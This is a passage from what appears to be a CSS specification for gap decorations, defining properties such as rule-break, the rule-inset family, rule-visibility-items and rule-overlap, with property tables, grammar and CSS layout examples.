| [Animation type:](#web-animations-1:animation-type) | discrete |

These properties control how gap segments are joined into gap decoration segments. Visually, this sets where decorations within a given gap break at visible "T" or "cross" intersections formed by items in the container. Precise details for how to apply these values are given in the steps to determine gap decoration segments.

****none****

: Gap decorations do not start or end at visible "T" or "cross" intersections. Instead, a single gap decoration segment spans from one end of the gap to the other.

****normal****

: Behavior depends on the type of container.

  **Grid containers**

  : Gap decorations start and end at visible "T" intersections but continue through visible "cross" intersections.

  **Flex containers**

  : Behaves the same as `none`.

  **Multicol containers**

  : On `column-rule-break`, behaves the same as `intersection`. On `row-rule-break`, behaves the same as `none`.

  **Grid lanes containers**

  : In the grid axis, behaves as it does for grid containers. In the stacking axis, behaves the same as `none`, staying contained within the gutters.

****intersection****

: Gap decorations start and end at visible "T" and "cross" intersections.

| Field | Value |
| --- | --- |
| Name: | **rule-break** |
| [Value:](#css-values-4:value-defs) | `<'column-rule-break'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule-break` and `row-rule-break` |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property sets `column-rule-break` and `row-rule-break` to the same value.

The following examples illustrate various settings for the [*-rule-break](#css-gaps-1:break) properties.

> **Example:** ```
> .break-normal-grid {
>   display: grid;
>   grid-template: repeat(4, 100px) / repeat(4, 100px);
>   gap: 20px;
>   row-rule: 6px solid red;
>   column-rule: 6px solid blue;
>   rule-break: normal;
> }
> ```
>
> 
>
> Default break behavior for gap decorations in a grid. Each decoration stops when it encounters an item spanning across the gap.

> **Example:** ```
> .break-normal-grid-lanes {
>   display: grid-lanes;
>   grid-template-columns: repeat(3, 120px);
>   gap: 16px;
>   row-rule: 10px solid #6aa6dc;
>   column-rule: 10px solid #f0673f;
>   rule-break: normal;
> }
> ```
>
> 
>
> Default break behavior for gap decorations in a grid lanes container. Grid axis rules break at a spanner, while stacking axis rules remain separate in each track.

> **Example:** ```
> .break-none-grid {
>   display: grid;
>   grid-template: repeat(4, 100px) / repeat(4, 100px);
>   gap: 20px;
>   row-rule: 6px solid red;
>   column-rule: 6px solid blue;
>   rule-break: none;
> }
> ```
>
> 
>
> Grid gap decorations with no breaks. Note that the gap decorations extend "behind" items placed in the grid.

> **Example:** ```
> .break-intersection-grid {
>   display: grid;
>   grid-template: repeat(4, 100px) / repeat(4, 100px);
>   gap: 20px;
>   row-rule: 6px solid red;
>   column-rule: 6px solid blue;
>   rule-break: intersection;
> }
> ```
>
> 
>
> Grid gap decorations contained within each gap decoration segment that is not flanked by spanning items on opposing sides.

> **Example:** ```
> .break-normal-multicol {
>   column-width: 150px;
>   column-height: 300px;
>   gap: 1em;
>   row-rule: 4px solid red;
>   column-rule: 4px solid blue;
>   rule-break: normal;
> }
> ```
>
> 
>
> Multicol gap decorations with rule-break set to `normal`. Note that in the column direction it behaves as if rule-break were set to `intersection`, while in the row direction it behaves as if rule-break were set to `none`.

> **Example:** ```
> .break-intersection-multicol {
>   column-width: 150px;
>   column-height: 300px;
>   gap: 1em;
>   row-rule: 4px solid red;
>   column-rule: 4px solid blue;
>   rule-break: intersection;
> }
> ```
>
> 
>
> Multicol gap decorations with rule-break set to `intersection`.

> **Example:** ```
> .break-normal-flex {
>   display: flex;
>   flex-wrap: wrap;
>   gap: 20px;
>   row-rule: 6px solid red;
>   column-rule: 6px solid blue;
>   rule-break: normal;
> }
> ```
>
> 
>
> Default break behavior for gap decorations in a flex container.
>
> Note that each flex line has its own distinct gaps between items. This has two implications:
>
> 1. Gap decorations in adjacent flex lines are separate from each other even if the gaps happen to line up.
> 2. `none` would have the same visual effect as `normal`.

> **Example:** ```
> .break-intersection-flex {
>   display: flex;
>   flex-wrap: wrap;
>   width: 500px;
>   gap: 20px;
>   row-rule: 6px solid red;
>   column-rule: 6px solid blue;
>   rule-break: intersection;
> }
> ```
>
> 
>
> Flexbox gap decorations contained within each gap decoration segment.

#### 3.3.  Adjusting gap decoration endpoints: The `rule-inset` properties {#css-gaps-1:inset}

| Field | Value |
| --- | --- |
| Name: | **column-rule-inset-cap-start**, **column-rule-inset-cap-end**, **column-rule-inset-junction-start**, **column-rule-inset-junction-end**, **row-rule-inset-cap-start**, **row-rule-inset-cap-end**, **row-rule-inset-junction-start**, **row-rule-inset-junction-end** |
| [Value:](#css-values-4:value-defs) | `<inset-value>` |
| [Initial:](#css-cascade-6:initial-values) | `0` |
| [Applies to:](#css-cascade-5:applies-to) | grid containers, flex containers, multicol containers, and grid lanes containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | refer to the crossing gap width |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value type |

```css
<inset-value> = <length-percentage> | overlap-join
```

These properties can be used to offset the start and end points of gap decorations relative to the segment endpoints which would normally determine where decorations start and end.

A **junction segment endpoint** is a segment endpoint at a gap junction where one or more other painted gap segments also touch the gap junction. See [§ 3.4 Gap decoration visibility: The rule-visibility-items properties](#css-gaps-1:visibility) for which gap segments are painted.

A **cap segment endpoint** is any segment endpoint that is not a junction segment endpoint. This includes endpoints at the container’s content edges, as well as endpoints at a gap junction that no other painted gap segment touches.

> **Example:** ```
> .simple-grid {
>   rule-break: intersection;
>   rule-visibility-items: between;
> }
> ```
>
> 
>
> In a fully populated grid, every interior gap junction produces junction segment endpoints (marked **J**), while the container’s content edges produce cap segment endpoints (marked **C**).

> **Example:** ```
> .simple-grid-with-empty-cells {
>   rule-break: intersection;
>   rule-visibility-items: between;
> }
> ```
>
> 
>
> When a gap decoration segment terminates at an interior gap junction that no other painted gap segment touches, its endpoint is a cap segment endpoint.

> **Example:** ```
> .donut-grid-layout {
>   rule-break: intersection;
>   rule-visibility-items: between;
> }
> ```
>
> 
>
> In a "donut" grid layout, where items surround an empty space in the middle of the container, endpoints bordering the empty interior region are cap segment endpoints.

Percentages are resolved against the **crossing gap width**, defined as follows:

**Segment endpoints at a gap junction**

: The crossing gap width is the size of the gap junction in the same dimension as the gap in which the segment endpoint lies (the row dimension for row gaps and the column dimension for column gaps).

  > **Note:** Typically, this will be the used value of the `column-gap` or `row-gap` property, whichever applies to the intersecting or abutting gap, plus any additional spacing added due to `justify-content` or `align-content`. However, in cases where gaps intersect or abut one another at overlapping intervals, the crossing gap width will be determined by the union of such intervals. See [this example](#css-gaps-1:example-unpaired-endpoints-1) for one such case.

**Other segment endpoints**

: The crossing gap width is `0`.

> **Note:** This classification by position is distinct from the cap segment endpoint / junction segment endpoint classification. A cap segment endpoint may sit at a container edge or at a gap junction (see [this example](#css-gaps-1:example-cap-junction-donut)). Hence, `column-rule-inset-cap-start: 50%` resolves to half the gap junction size at an interior cap and `0` at other caps such as container edges.

The `column-rule-inset-cap-start` and `row-rule-inset-cap-start` properties apply to start segment endpoints that are cap segment endpoints. The `column-rule-inset-junction-start` and `row-rule-inset-junction-start` properties apply to start segment endpoints that are junction segment endpoints. For these properties, positive values offset in the end direction, and negative values offset in the start direction, along the axis of the gap.

The `column-rule-inset-cap-end` and `row-rule-inset-cap-end` properties apply to end segment endpoints that are cap segment endpoints. The `column-rule-inset-junction-end` and `row-rule-inset-junction-end` properties apply to end segment endpoints that are junction segment endpoints. For these properties, positive values offset in the start direction, and negative values offset in the end direction, along the axis of the gap.

The **overlap-join** keyword produces neat joins between gap decorations that meet at the same gap junction:

- At a junction segment endpoint, the gap decoration extends into the gap junction by half the crossing gap width, plus half the used value of the crossing gap’s `column-rule-width` or `row-rule-width` (whichever applies).
- At a cap segment endpoint, `overlap-join` is treated as `0`.

> **Example:** ```
> .inset-overlap-join {
>   rule-inset: overlap-join;
>   rule-break: intersection;
>   rule-visibility-items: between;
> }
> ```
>
> 
>
> With `overlap-join`, gap decorations at junction segment endpoints extend into the gap junction, joining adjacent gap decorations. At cap segment endpoints, `overlap-join` is treated as `0`.

> **Example:** ```
> .inset-overlap-join {
>   rule-inset: overlap-join;
>   rule-break: intersection;
>   rule-visibility-items: between;
> }
> ```
>
> 
>
> In a "donut" grid layout, where items surround an empty space in the middle of the container, `overlap-join` joins adjacent gap decorations at the junction segment endpoints, extending each gap decoration into the gap junction. At the cap segment endpoints bordering the edge of the container and the empty interior region, `overlap-join` is treated as `0`.

> **Example:** ```
> .inset-end {
>   row-rule: 3px solid red;
>   row-rule-break: intersection;
>   row-rule-inset-end: 10px;
> }
> ```
>
> 
>
> Row-direction decorations with asymmetric insets in LTR and RTL directions and vertical writing-mode.

##### 3.3.1.  `-start` and `-end` shorthands {#css-gaps-1:insets-start-end}

These shorthands allow authors to achieve uniform asymmetric decorations.

> **Example:** ```
> .inset-start-8px-end-0px {
>   column-rule-inset-start: 8px;
>   column-rule-inset-end: 0px;
> }
> ```
>
> 
>
> A start inset of `8px` recedes the starts of gap decorations, while an end inset of `0px` aligns the ends of gap decorations with content edges.

| Field | Value |
| --- | --- |
| Name: | **column-rule-inset-start**, **column-rule-inset-end**, **row-rule-inset-start**, **row-rule-inset-end** |
| [Value:](#css-values-4:value-defs) | `<inset-value>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule-inset-cap-start`, `column-rule-inset-junction-start`, `column-rule-inset-cap-end`, `column-rule-inset-junction-end`, `row-rule-inset-cap-start`, `row-rule-inset-junction-start`, `row-rule-inset-cap-end`, and `row-rule-inset-junction-end` |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These shorthand properties set the corresponding `-cap-` and `-junction-` properties to the same value. For example, `column-rule-inset-start` sets both `column-rule-inset-cap-start` and `column-rule-inset-junction-start` to the same value.

| Field | Value |
| --- | --- |
| Name: | **rule-inset-start** |
| [Value:](#css-values-4:value-defs) | `<'column-rule-inset-start'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule-inset-start` and `row-rule-inset-start` |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property sets `column-rule-inset-start` and `row-rule-inset-start` to the same value.

| Field | Value |
| --- | --- |
| Name: | **rule-inset-end** |
| [Value:](#css-values-4:value-defs) | `<'column-rule-inset-end'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule-inset-end` and `row-rule-inset-end` |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property sets `column-rule-inset-end` and `row-rule-inset-end` to the same value.

##### 3.3.2.  `-cap-` and `-junction-` shorthands {#css-gaps-1:insets-cap-junction}

These shorthands allow authors to achieve different treatments at cap segment endpoints versus junction segment endpoints.

> **Example:** ```
> .inset-cap-0px-inset-junction-negative-5px {
>   column-rule-inset-cap: 0px;
>   column-rule-inset-junction: -5px;
>   column-rule-break: intersection;
> }
> ```
>
> 
>
> A junction inset of `-5px` extends the endpoints of gap decorations at junction segment endpoints slightly beyond the edges of adjacent items. A cap inset of `0px` aligns the endpoints of gap decorations at cap segment endpoints with the content edges.

| Field | Value |
| --- | --- |
| Name: | **column-rule-inset-cap**, **column-rule-inset-junction**, **row-rule-inset-cap**, **row-rule-inset-junction** |
| [Value:](#css-values-4:value-defs) | `<inset-value>` <inset-value>? |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule-inset-cap-start`, `column-rule-inset-cap-end`, `column-rule-inset-junction-start`, `column-rule-inset-junction-end`, `row-rule-inset-cap-start`, `row-rule-inset-cap-end`, `row-rule-inset-junction-start`, and `row-rule-inset-junction-end` |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These shorthands set the corresponding `-start` and `-end` properties. For example, `column-rule-inset-cap` sets both `column-rule-inset-cap-start` and `column-rule-inset-cap-end`. If one value is specified, both properties are set to that value. If two values are specified, `-start` is set to the first and `-end` is set to the second.

| Field | Value |
| --- | --- |
| Name: | **rule-inset-cap** |
| [Value:](#css-values-4:value-defs) | `<'column-rule-inset-cap'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule-inset-cap` and `row-rule-inset-cap` |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property sets `column-rule-inset-cap` and `row-rule-inset-cap` to the same value.

| Field | Value |
| --- | --- |
| Name: | **rule-inset-junction** |
| [Value:](#css-values-4:value-defs) | `<'column-rule-inset-junction'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule-inset-junction` and `row-rule-inset-junction` |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property sets `column-rule-inset-junction` and `row-rule-inset-junction` to the same value.

##### 3.3.3.  Universal shorthands {#css-gaps-1:insets-universal}

These shorthands allow authors to achieve uniform treatments throughout a container.

> **Example:** ```
> .inset-0px {
>   column-rule-inset: 0px;
>   column-rule-break: intersection;
> }
> ```
>
> 
>
> An inset of `0px` aligns the ends of gap decorations with adjacent items.

> **Example:** ```
> .inset-positive-5px {
>   column-rule-inset: 5px;
>   column-rule-break: intersection;
> }
> ```
>
> 
>
> An inset of `5px` shortens the ends of gap decorations relative to the edges of adjacent items.

> **Example:** ```
> .inset-negative-5px {
>   column-rule-inset: -5px;
>   column-rule-break: intersection;
> }
> ```
>
> 
>
> An inset of `-5px` extends the ends of gap decorations slightly beyond the edges of adjacent items.

> **Example:** ```
> .inset-negative-50percent {
>   column-rule-inset: -50%;
>   column-rule-break: intersection;
> }
> ```
>
> 
>
> An inset of `-50%` extends each end of a gap decoration halfway into its intersection. Neighboring gap decorations "meet in the middle" to create a continuous line. Note that at the edges of the container, the crossing gap width is defined to be `0`, so the inset value of `-50%` resolves to `0` and thus the gap decoration does not extend beyond the bounds of the container. (Contrast with the previous example, which specified an inset in `px` units.)

| Field | Value |
| --- | --- |
| Name: | **column-rule-inset**, **row-rule-inset** |
| [Value:](#css-values-4:value-defs) | `<'column-rule-inset-cap'>` [ / `<'column-rule-inset-junction'>` ]? |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule-inset-cap`, `column-rule-inset-junction`, `row-rule-inset-cap`, and `row-rule-inset-junction` |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

These shorthands set the corresponding cap and junction start and end values. The order of values is:

```css
cap-start cap-end? [/ junction-start junction-end?]?
```

Omitted values are filled in as follows:

1. If the junction values are omitted, they are copied from the cap values.
2. Any omitted end value is copied from the corresponding start value.

| Field | Value |
| --- | --- |
| Name: | **rule-inset** |
| [Value:](#css-values-4:value-defs) | `<'column-rule-inset'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule-inset` and `row-rule-inset` |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property sets `column-rule-inset` and `row-rule-inset` to the same value.

#### 3.4.  Gap decoration visibility: The `rule-visibility-items` properties {#css-gaps-1:visibility}

| Field | Value |
| --- | --- |
| Name: | **column-rule-visibility-items**, **row-rule-visibility-items** |
| [Value:](#css-values-4:value-defs) | `all` \| `around` \| `between` \| `normal` |
| [Initial:](#css-cascade-6:initial-values) | `normal` |
| [Applies to:](#css-cascade-5:applies-to) | grid containers, multicol containers, and grid lanes containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

These properties control whether gap decorations are painted in gap segments adjacent to empty areas. A gap segment can stay unpainted even when it is part of a larger gap decoration segment.

In a grid lanes container, these properties apply only to grid axis gap decorations. They have no effect on stacking axis gap decorations.

****all****

: Paint decorations in all gap segments, regardless of whether adjacent items are present.

****around****

: Paint decorations in a gap segment if at least one of the two adjacent areas is occupied by an item.

****between****

: Paint decorations in a gap segment if both adjacent areas are occupied by items.

  For grid axis gaps in a grid lanes container, paint only at positions along the gap that lie between the leading and trailing edges of an adjacent item on each side, using the items' positions after [stacking-axis self-alignment](#css-grid-3:stacking-self-alignment). Space available for alignment is empty where no item is present. Space occupied by crossing gutters does not count as empty space for this purpose. See [the alignment example](#css-gaps-1:example-grid-lanes-visibility-alignment) and [the crossing-gutter example](#css-gaps-1:example-grid-lanes-visibility-break) below.

****normal****

: Behavior depends on the type of container.

  **Grid containers and grid lanes containers**

  : Behaves the same as `all`.

  **Multicol containers**

  : On `column-rule-visibility-items`, behaves the same as `between`. On `row-rule-visibility-items`, behaves the same as `all`.

| Field | Value |
| --- | --- |
| Name: | **rule-visibility-items** |
| [Value:](#css-values-4:value-defs) | `<'column-rule-visibility-items'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule-visibility-items` and `row-rule-visibility-items` |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property sets `column-rule-visibility-items` and `row-rule-visibility-items` to the same value.

> **Example:** ```
> .break-normal-with-all-grid {
>   display: grid;
>   grid-template: repeat(3, 100px) / repeat(3, 100px);
>   gap: 20px;
>   row-rule: 6px solid red;
>   column-rule: 6px solid blue;
>   rule-visibility-items: all;
> }
> ```
>
> 
>
> Gap decorations in Grid with `normal` rule breaking and `all` visibility.

> **Example:** ```
> .break-normal-with-around-grid {
>   display: grid;
>   grid-template: repeat(3, 100px) / repeat(3, 100px);
>   gap: 20px;
>   row-rule: 6px solid red;
>   column-rule: 6px solid blue;
>   rule-visibility-items: around;
> }
> ```
>
> 
>
> Gap decorations in Grid with `normal` rule breaking and `around` visibility.

> **Example:** ```
> .break-normal-with-between-grid {
>   display: grid;
>   grid-template: repeat(3, 100px) / repeat(3, 100px);
>   gap: 20px;
>   row-rule: 6px solid red;
>   column-rule: 6px solid blue;
>   rule-visibility-items: between;
> }
> ```
>
> 
>
> Gap decorations in Grid with `normal` rule breaking and `between` visibility.

> **Example:** ```
> .lanes {
>   display: grid-lanes;
>   grid-template-columns: repeat(2, 100px);
>   gap: 20px;
>   column-rule: 4px solid #f0673f;
>   row-rule: 4px solid #6aa6dc;
>   rule-break: intersection;
>   column-rule-visibility-items: between;
> }
> .start > .aligned { align-self: start; }
> .center > .aligned { align-self: center; }
> .end > .aligned { align-self: end; }
> ```
>
> 
>
> Grid lanes containers with `between` visibility and `intersection` breaking. In each container, the top column rule stops at the trailing edge of item 1. Below the spanning item (3), column rules are painted only where item 4 and an item in the other track overlap in the stacking axis.

> **Example:** ```
> .lanes {
>   display: grid-lanes;
>   grid-template-columns: repeat(2, 100px);
>   gap: 20px;
>   column-rule: 4px solid #f0673f;
>   row-rule: 4px solid #6aa6dc;
>   column-rule-visibility-items: between;
> }
> .lanes > .aligned { align-self: center; }
> .none { rule-break: none; }
> .normal { rule-break: normal; }
> .intersection { rule-break: intersection; }
> ```
>
> 
>
> With `none` or `normal`, the column rule remains continuous across the row gutter between items 2 and 3. `between` shortens both rules to the leading and trailing edges of the centered item (1). With `intersection`, the column rule breaks at the row gutter.

#### 3.5.  Gap decoration overlap: The `rule-overlap` property {#css-gaps-1:overlap}

| Field | Value |
| --- | --- |
| Name: | **rule-overlap** |
| [Value:](#css-values-4:value-defs) | `row-over-column` \| `column-over-row` |
| [Initial:](#css-cascade-6:initial-values) | `row-over-column` |
| [Applies to:](#css-cascade-5:applies-to) | grid containers, flex containers, and grid lanes containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

This property sets the paint order for overlapping gap decorations.

****row-over-column****

: Row-direction decorations are painted above column-direction decorations.

****column-over-row****

: Column-direction decorations are painted above row-direction decorations.

> **Example:** ```
> .row-over-column {
>   rule-overlap: row-over-column;
>   row-rule: 6px solid red;
>   column-rule: 6px solid blue;
> }
> ```
>
> 
>
> Row-over-column gap decoration overlap.

> **Example:** ```
> .column-over-row {
>   rule-overlap: column-over-row;
>   row-rule: 6px solid red;
>   column-rule: 6px solid blue;
> }
> ```
>
> 
>
> Column-over-row gap decoration overlap.

#### 3.6.  Fragmentation {#css-gaps-1:fragmentation}

[§ 2 Gaps Between Boxes](#css-gaps-1:gaps) specifies that gaps disappear where they coincide with a fragmentation break. Because there is no gap in such locations, no gap decoration is drawn in them either.

### 4.  Color, style, and width {#css-gaps-1:color-style-width}

Property definitions in this section supersede the definitions of properties with the same names in [CSS-MULTICOL-1].

#### 4.1.  Gap decoration color: The `column-rule-color`, `row-rule-color`, and `rule-color` properties {#css-gaps-1:column-row-rule-color}

| Field | Value |
| --- | --- |
| Name: | **column-rule-color**, **row-rule-color** |
| [Value:](#css-values-4:value-defs) | `<line-color-list>` \| `<auto-line-color-list>` |
| [Initial:](#css-cascade-6:initial-values) | currentcolor |
| [Applies to:](#css-cascade-5:applies-to) | grid containers, flex containers, multicol containers, and grid lanes containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list, see [§ 4.7 Interpolation of list values](#css-gaps-1:interpolation-behavior). |

```css
<line-color-list>          = <line-color-or-repeat>#

<auto-line-color-list>     = <line-color-or-repeat>#? ,
                             <auto-repeat-line-color> ,
                             <line-color-or-repeat>#?

<line-color-or-repeat>     = [ <color> | <repeat-line-color> ]

<repeat-line-color>        = repeat( [ <integer [1,∞]> ] , [ <color> ]# )

<auto-repeat-line-color>   = repeat( auto , [ <color> ]# )
```

These properties set the color of gap decorations.

| Field | Value |
| --- | --- |
| Name: | **rule-color** |
| [Value:](#css-values-4:value-defs) | `<'column-rule-color'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule-color` and `row-rule-color` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property sets `column-rule-color` and `row-rule-color` to the same value.

#### 4.2.  Gap decoration style: The `column-rule-style`, `row-rule-style`, and `rule-style` properties {#css-gaps-1:column-row-rule-style}

| Field | Value |
| --- | --- |
| Name: | **column-rule-style**, **row-rule-style** |
| [Value:](#css-values-4:value-defs) | `<line-style-list>` \| `<auto-line-style-list>` |
| [Initial:](#css-cascade-6:initial-values) | none |
| [Applies to:](#css-cascade-5:applies-to) | grid containers, flex containers, multicol containers, and grid lanes containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | discrete |

```css
<line-style-list>          = <line-style-or-repeat>#

<auto-line-style-list>     = <line-style-or-repeat>#? ,
                             <auto-repeat-line-style> ,
                             <line-style-or-repeat>#?

<line-style-or-repeat>     = [ <line-style> | <repeat-line-style> ]

<repeat-line-style>        = repeat( [ <integer [1,∞]> ] , [ <line-style> ]# )

<auto-repeat-line-style>   = repeat( auto , [ <line-style> ]# )
```

These properties set the styles of gap decorations. The `<line-style>` values apply the same as for `border-style`.

| Field | Value |
| --- | --- |
| Name: | **rule-style** |
| [Value:](#css-values-4:value-defs) | `<'column-rule-style'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule-style` and `row-rule-style` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property sets `column-rule-style` and `row-rule-style` to the same value.

#### 4.3.  Gap decoration width: The `column-rule-width`, `row-rule-width`, and `rule-width` properties {#css-gaps-1:column-row-rule-width}

| Field | Value |
| --- | --- |
| Name: | **column-rule-width**, **row-rule-width** |
| [Value:](#css-values-4:value-defs) | `<line-width-list>` \| `<auto-line-width-list>` |
| [Initial:](#css-cascade-6:initial-values) | medium |
| [Applies to:](#css-cascade-5:applies-to) | grid containers, flex containers, multicol containers, and grid lanes containers |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | list of absolute lengths, snapped as a border width |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | repeatable list, see [§ 4.7 Interpolation of list values](#css-gaps-1:interpolation-behavior). |

```css
<line-width-list>          = <line-width-or-repeat>#

<auto-line-width-list>     = <line-width-or-repeat>#? ,
                             <auto-repeat-line-width> ,
                             <line-width-or-repeat>#?

<line-width-or-repeat>     = [ <line-width> | <repeat-line-width> ]

<repeat-line-width>        = repeat( [ <integer [1,∞]> ] , [ <line-width> ]# )

<auto-repeat-line-width>   = repeat( auto , [ <line-width> ]# )
```

These properties set the widths of gap decorations. Negative values are not allowed.

| Field | Value |
| --- | --- |
| Name: | **rule-width** |
| [Value:](#css-values-4:value-defs) | `<'column-rule-width'>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | Same as `column-rule-width` and `row-rule-width` |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

This shorthand property sets `column-rule-width` and `row-rule-width` to the same value.

#### 4.4.  Gap decoration shorthands: The `column-rule`, `row-rule`, and `rule` properties {#css-gaps-1:gap-decoration-shorthands}

| Field | Value |
| --- | --- |
| Name: | **column-rule**, **row-rule** |
| [Value:](#css-values-4:value-defs) | `<gap-rule-list>` \| `<gap-auto-rule-list>` |
| [Initial:](#css-cascade-6:initial-values) | see individual properties |
| [Applies to:](#css-cascade-5:applies-to) | see individual properties |
| [Inherited:](#css-cascade-5:inherited-property) | see individual properties |
| [Percentages:](#css-values-4:percentages) | see individual properties |
| [Computed value:](#css-cascade-6:computed) | see individual properties |
| [Animation type:](#web-animations-1:animation-type) | see individual properties |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |

```css
<gap-rule-list>        = <gap-rule-or-repeat>#

<gap-auto-rule-list>   = <gap-rule-or-repeat>#? ,
                         <gap-auto-repeat-rule> ,
                         <gap-rule-or-repeat>#?

<gap-rule-or-repeat>   = <gap-rule> | <gap-repeat-rule>

<gap-repeat-rule>      = repeat( <integer [1,∞]> , <gap-rule># )

<gap-auto-repeat-rule> = repeat( auto , <gap-rule># )

